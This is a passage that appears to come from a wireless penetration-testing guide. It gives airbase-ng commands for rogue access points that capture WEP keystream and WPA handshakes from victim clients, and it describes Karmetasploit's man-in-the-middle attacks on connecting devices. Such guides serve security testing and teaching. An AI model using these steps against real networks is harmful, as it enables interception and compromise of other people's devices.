 Rather than using the chopchop or fragmentation attacks, you can capture the PRGA from a client by setting up a fake access point as follows.

```ShellSession
>> airbase-ng -c <Channel> -e <ESSID> -s -W 1 <interface>

Where:
-c: Specifies the channel to transmit on
-e: Filters a single SSID
-s: Forces shared key authentication
-W 1: Forces the beacons to specify WEP
```

### Airbase-ng WPA Handshake Capture

In addition to being able to capture PRGA files, Airbase-ng can also be configured to capture the WPA 4-way handshake from victim clients.

```ShellSession
>> airbase-ng -c <Channel> -e <ESSID> -z 2 -W 1 <interface>

Where:
-c: Specifies the fake AP channel
-e: Filters to a single SSID
-z 2: Specifies TKIP
-W 1: Sets the WEP flag. Some clients get confused if this is not set
```

Note that the `-z` type may have to be changed depending on the cipher you believe the client will be using. TKIP is typical for WPA. For WPA2 CCMP, you would use `-z 4`.

### Karmetasploit

Karmetasploit is one of the most sinister attack vectors available when it comes to wireless networking.

It uses a combination of the Karma attack, the Aircrack-ng suite, and the Metasploit exploitation framework.

Karma takes advantage of the insecure nature of wireless clients by responding to all probe requests sent out by them.

Once a victim client is associated with the malicious access point, a wide range of attacks can be launched against it.

Karmetasploit takes this attack to the next level by launching a wide array of man in the middle attacks and exploits at the client once it connects to the rogue access point

